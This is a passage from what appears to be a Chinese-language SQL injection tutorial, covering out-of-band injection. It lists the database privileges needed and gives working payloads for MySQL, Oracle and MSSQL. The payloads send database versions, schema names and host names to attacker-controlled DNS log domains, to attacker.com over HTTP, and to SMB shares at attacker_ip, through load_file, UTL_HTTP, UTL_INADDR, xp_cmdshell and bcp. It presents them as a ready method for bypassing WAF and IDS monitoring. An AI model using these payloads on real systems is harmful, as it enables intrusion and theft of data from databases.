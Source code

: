 5.  **带外通道注入 (Out-of-Band, OOB):**
    *   **概述:** 当服务器无法通过同一连接直接返回数据（如被WAF拦截、无回显、盲注效率低）时，利用数据库服务器的网络功能（如DNS查询、HTTP请求、SMB连接）将数据发送到攻击者控制的外部服务器。攻击者通过监控外部服务器的日志（如DNS日志、HTTP日志）来接收数据。
    *   **前提条件:**
        *   目标数据库服务器能够发起出站网络连接（能访问外网或攻击者控制的内网服务器）。
        *   数据库用户拥有执行相关网络函数的权限（如MySQL的 `load_file()` 用于UNC路径触发DNS/SMB，`SELECT ... INTO OUTFILE` 写SMB共享；MSSQL的 `xp_cmdshell`, `bcp`; Oracle的 `UTL_HTTP`, `UTL_TCP`, `UTL_DNS`）。
        *   (MySQL on Windows with `load_file`) `secure_file_priv` 配置允许加载UNC路径文件（通常需为空 `""`，`NULL`表示禁止）。
    *   **方法:**
        1.  **DNS Exfiltration (DNSLog):**
            *   注册一个DNSLog平台账号（如 `ceye.io`, `dnslog.cn`）获取一个唯一子域名 `your_identifier.dnslog.platform`。
            *   构造Payload，将要查询的数据（如`version()`、`database()`、`hex(data)`）作为子域名拼接到标识符之前。
            *   数据库执行查询时，会尝试解析这个构造的域名，DNS请求记录会被DNSLog平台捕获。
            *   **Payload 示例 (MySQL on Windows using `load_file` with UNC path):**
                ```sql
                -- 发送数据库版本
                select load_file(concat('\\\\',(select version()),'.your_identifier.dnslog.platform\\abc'));
                -- 发送库名 (使用HEX编码防止特殊字符问题)
                select load_file(concat('\\\\',(select hex(database()) limit 0,1),'.your_identifier.dnslog.platform\\abc'));
                ```
            *   **Payload 示例 (Oracle using `UTL_INADDR`):**
                ```sql
                SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT version FROM v$instance)||'.your_identifier.dnslog.platform') FROM dual;
                ```
            *   **Payload 示例 (MSSQL using `xp_cmdshell`):**
                ```sql
                EXEC master..xp_cmdshell 'ping %COMPUTERNAME%.your_identifier.dnslog.platform'; -- 发送计算机名
                EXEC master..xp_cmdshell 'nslookup (select top 1 name from sysobjects where xtype=''U'').your_identifier.dnslog.platform'; -- 发送第一个用户表名
                ```
        2.  **HTTP Exfiltration:**
            *   构造Payload，使用数据库的网络请求函数（如Oracle的`UTL_HTTP.request`, PostgreSQL的`COPY ... TO PROGRAM 'curl ...'`）向攻击者控制的Web服务器发送HTTP请求，并将数据放在URL参数或POST Body中。
            *   **Payload 示例 (Oracle):**
                ```sql
                SELECT UTL_HTTP.REQUEST('http://attacker.com/log?data='||(SELECT banner FROM v$version WHERE ROWNUM=1)) FROM dual;
                ```
            *   **Payload 示例 (MySQL with UDF, if installed):**
                ```sql
                SELECT http_get(concat('http://attacker.com/log?d=', hex(user())));
                ```
        3.  **SMB Exfiltration:**
            *   (主要适用于Windows环境或配置了SMB客户端的Linux) 利用数据库功能（如MySQL的`SELECT ... INTO OUTFILE '\\\\attacker_ip\\share\\file.txt'`, MSSQL的`xp_cmdshell 'dir > \\\\attacker_ip\\share\\output.txt'`, `bcp ... queryout "\\\\attacker_ip\\share\\data.txt"`) 将数据写入攻击者设置的SMB共享。攻击者通过检查共享文件获取数据。
            *   **Payload 示例 (MySQL):**
                ```sql
                SELECT @@version INTO OUTFILE '\\\\attacker_ip\\share\\version.txt';
                ```
            *   **Payload 示例 (MSSQL `bcp`):**
                ```sql
                EXEC xp_cmdshell 'bcp "SELECT name FROM master.sys.databases" queryout "\\\\attacker_ip\\share\\db_names.txt" -c -T -S localhost';
                ```
    *   **优势:** 隐蔽性高，可绕过仅监控HTTP响应的WAF/IDS，适用于网络隔离或有限连接的环境。
    *   **劣势:** 依赖数据库服务器的网络能力和权限配置，数据传输可能较慢，特殊字符处理复杂（常需编码）。

